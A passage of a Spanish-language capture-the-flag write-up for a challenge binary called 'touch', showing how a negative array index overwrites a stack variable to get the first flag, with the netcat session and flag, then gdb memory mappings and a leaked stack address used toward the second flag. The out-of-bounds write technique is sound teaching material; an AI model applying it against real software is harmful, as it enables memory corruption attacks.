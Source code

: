 Podemos observar que la posición de `untouchable1` en memoria es 8 bytes antes que el array `p`. `p` es un array de `unsigned long`, que ocupan 8 bytes cada uno. Esto significa que `p[i]` accede a la dirección de memoria `&p + i*8`. En nuestro caso, como `untouchable1` se encuentra en la dirección `&p - 8`, el índice que buscamos es `-1`. Es decir, estamos accediendo a una posición anterior al array `p` con un índice negativo. Introduciendo el valor `0xcacabaca` en decimal en dicho índice obtenemos la primera flag:

```
$ nc localhost 31337
Código secreto de ayuda para flag2: 0x7ffcaedcacb0
Introduce un índice: -1
Introduce un valor: 3402283722
ETSIIT_CTF{negative_1ndex_t0_pwn_th3m_all!}
```

#### Segunda flag
Para la segunda flag tenemos que modificar la variable `untouchable2`. Sin embargo, mientras que `untouchable1` era una variable local y se encontraba en la stack, `untouchable2` es una global y por tanto se encuentra en el rango de direcciones del programa. Podemos verlo con gdb:

```
(gdb) print &p
$2 = (unsigned long (*)[3]) 0x7fffffffda50
(gdb) print &untouchable2
$3 = (unsigned long *) 0x4e70f0 <untouchable2>
(gdb) info proc mappings 
proceso 11606
Espacios de direcciones asignados:

          Start Addr           End Addr       Size     Offset  Perms  objfile
            0x400000           0x401000     0x1000        0x0  r--p   /tmp/touch
            0x401000           0x4b8000    0xb7000     0x1000  r-xp   /tmp/touch
            0x4b8000           0x4e3000    0x2b000    0xb8000  r--p   /tmp/touch
            0x4e3000           0x4e7000     0x4000    0xe2000  r--p   /tmp/touch
            0x4e7000           0x4ea000     0x3000    0xe6000  rw-p   /tmp/touch
            0x4ea000           0x511000    0x27000        0x0  rw-p   [heap]
      0x7ffff7ff9000     0x7ffff7ffd000     0x4000        0x0  r--p   [vvar]
      0x7ffff7ffd000     0x7ffff7fff000     0x2000        0x0  r-xp   [vdso]
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0  rw-p   [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0  --xp   [vsyscall]
```

Además del hecho de que `untouchable2` se encuentra muy alejada de `p`, tenemos otra cuestión: la dirección de la stack cambia en cada ejecución, y por tanto la dirección de `p`. Esto no era problema para la primera flag, ya que `untouchable1` también se encontraba en la stack, y por tanto su dirección era relativa a la de `p`. Pero en este caso la dirección de `untouchable2` se mantiene fija, mientras que la de `p` cambia cada vez. Afortunadamente, el programa nos imprime la dirección de `p` en cada ejecución:

```
$ ./touch 
Código secreto de ayuda para flag2: 0x7fffb375f910
Introduce un índice: ^C
$ ./touch 
Código secreto de ayuda para flag2: 0x7ffd4be68f30
Introduce un índice: ^C
```
